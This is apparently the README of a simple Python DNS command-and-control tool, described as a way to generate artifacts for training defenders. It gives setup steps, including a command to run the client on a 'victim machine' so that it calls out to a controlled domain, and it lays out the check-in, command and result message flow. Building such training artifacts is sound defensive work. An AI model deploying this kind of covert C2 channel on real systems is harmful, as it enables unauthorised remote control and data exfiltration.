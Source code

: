# ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`.

On that VPC, install and run the server.

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`

## Message Flow
`Client             Server`  
`CHK                NUL`  
`CHK                HDR<num CMD pkts>`  
`CON<last pkt num>  CMD<pkt num>`  
`HDR<num RES pkts>  ACK<num RES pkts>`  
`RES<pkt num>       ACK<pkt num>`  

`STP` from server ends current `RES` thread
`DIE` from server closes client
